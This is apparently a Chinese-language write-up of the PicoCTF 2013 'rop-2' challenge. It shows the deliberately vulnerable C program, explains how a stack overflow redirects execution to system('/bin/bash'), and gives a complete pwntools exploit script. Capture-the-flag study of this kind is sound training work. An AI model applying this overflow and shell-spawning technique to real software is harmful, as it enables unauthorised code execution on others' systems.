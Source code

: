 ```yaml
---
title: 2013PicoCTF rop-2
date: 2019-04-18 23:38:22
categories: Pwn
---
```

# Write-Up
```
char * not_used = "/bin/bash";

int not_called() {
	return system("/bin/date");
}

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 256);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
        be_nice_to_people();
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```
可以看到，和rop1非常类似，但是```not_called```中```system```函数调用的不是shell，我们也看到有一个shell的字符串

所以我们可以使这个```system```函数，而参数是```/bin/bash```，这样就能拿到shell了

那么怎么使得参数可以修改成我们想要的值呢？

查看函数汇编代码

![](1.png)

我们可以发现，在```call .system```之前，往栈上放了```/bin/date```，所以如果我们在栈上放```/bin/bash```再调用就可以得到shell了

查看保护机制，几乎没有保护
>    Arch:     i386-32-little  
    RELRO:    Partial RELRO  
    Stack:    No canary found  
    NX:       NX enabled  
    PIE:      No PIE (0x8048000)  

可以直接在elf文件中读出偏移地址

>0x08048610 aBinBash        db '/bin/bash',0  
0x080484B1                 call    .system

所以我们可以这样构造输入
>junk + call + /bin/bash

利用junk覆盖到eip前，利用call劫持返回的eip，再放一个bash作为参数，即可



这里不知道为什么不能像以往一样直接利用命令行执行

~~我可能点错什么设置吧~~

这里利用python脚本来写啦，后面大部分题目都得利用python

```pwntools```是一个必备的python库，得自行安装

简单介绍几个功能

```
p = process('./rop2')
```

```process``` 函数可以启动一个进程，通常就是用来启动我们的程序

```
payload = 'a'*140+p32(call)+p32(bash)
```

这里的 ```p32```是把数据转换成内存中的形式(p32(1)='\x01\x00\x00\x00')，这里直接拼接形成payload
>32位用p32,64位用p64

```
p.send(payload)
```

```send``` 函数可以把参数中的内容送到程序输入缓存里，等同于把payload输入到程序中(程序此时在读取)

```
p.interactive()
```

```interactive``` 通常在get到shell后进入交互模式，此时就可以像一个模拟终端一样进行操作

完整exp：
```
from pwn import *
p = process('./rop2')
call = 0x080484b1
bash = 0x08048610
payload = 'a'*140+p32(call)+p32(bash)
p.send(payload)
p.interactive()
```
